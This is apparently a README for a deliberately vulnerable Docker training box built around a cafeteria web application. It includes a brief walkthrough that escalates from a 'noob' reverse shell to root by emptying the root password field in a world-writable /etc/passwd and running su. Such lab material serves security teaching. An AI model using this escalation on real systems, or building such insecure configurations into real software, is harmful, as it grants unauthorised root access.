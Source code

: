 # Kaindorf Cafeteria Box

## Introduction

The purpose of this repository is to provide a simple installation for a container that serves the [Kaindorf Cafeteria Application](https://github.com/FloDevAT/Kaindorf-Cafeteria).

## How to Setup

### Requirements

- Docker

### Installation

Since the whole server is deployed inside a single Docker container, it is very easy to install, run, and replace any of the services.

To make the process easier, there is a single `run.sh` file in the repository that executes all the required steps. If you are unable to execute this file for some reason, you can always copy the commands and execute them manually.

The container installs a basic set of tools common in many Linux installations. It also instantly runs the `config.sh` file, which makes the box vulnerable, creates the `noob` user, and runs the application with it.

The container runs within a specific Docker network and assigns it a static IP address, making it easier to demonstrate. However, this configuration is not required for the box to function, so feel free to modify or remove it as needed. For deploying the reverse shell, ensure you check for the correct configuration.

## How to Root the Box

The description of how to exploit the application can be found in its [repository](https://github.com/FloDevAT/Kaindorf-Cafeteria). For this tutorial, I will continue from the initial foothold of a "noob" reverse shell:

```bash
sh-5.2$ id
uid=1000(noob) gid=1000(noob) groups=1000(noob)
```

After some investigation, you may discover that the `/etc/passwd` file is editable by all users (including our `noob` user). This allows us to modify the line for the root user as follows:

```plaintext
root::0:0:root:/root:/bin/bash
```

(Note: We removed the `x` in the second field.)

Now, you can switch to the root user without entering a password:

```bash
sh-5.2$ su root
```

And that's it! We now have a root shell:

```bash
root@cad7035e8cb6:/# id
uid=0(root) gid=0(root) groups=0(root)
